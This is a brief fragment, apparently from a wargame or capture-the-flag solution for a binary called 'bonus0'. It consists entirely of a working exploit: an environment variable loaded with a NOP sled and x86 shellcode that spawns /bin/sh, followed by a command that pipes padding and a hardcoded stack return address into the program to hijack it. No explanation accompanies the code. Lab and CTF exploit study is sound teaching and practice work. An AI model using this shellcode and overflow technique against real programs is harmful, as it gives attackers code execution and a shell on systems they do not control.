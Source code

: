 export YOLO=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
(python -c 'print "A" * 20'; python -c 'print "B" * 14 + "\x2c\xfe\xff\xbf" + "A"'; cat) | ./bonus0